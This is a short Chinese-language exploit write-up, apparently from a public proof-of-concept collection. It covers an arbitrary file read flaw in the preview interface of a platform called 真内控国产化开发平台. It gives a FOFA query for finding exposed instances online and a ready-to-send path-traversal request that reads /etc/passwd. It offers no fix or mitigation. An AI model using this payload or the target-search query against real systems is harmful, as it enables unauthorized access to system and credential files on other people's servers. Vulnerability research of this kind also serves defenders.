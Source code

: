 ## 真内控国产化开发平台简介

真内控国产化开发平台

## 漏洞描述

真内控国产化开发平台preview接口存在任意文件读取漏洞

## 影响版本

真内控国产化开发平台

## fofa查询语句

body="js/npm.echarts.js"

## 漏洞复现

漏洞链接：http://xxx.xx.xx.xx/print/billPdf/preview?urlPath=../../../../../../../../../../../../../../etc/passwd

```yaml
GET /print/billPdf/preview?urlPath=../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive

```

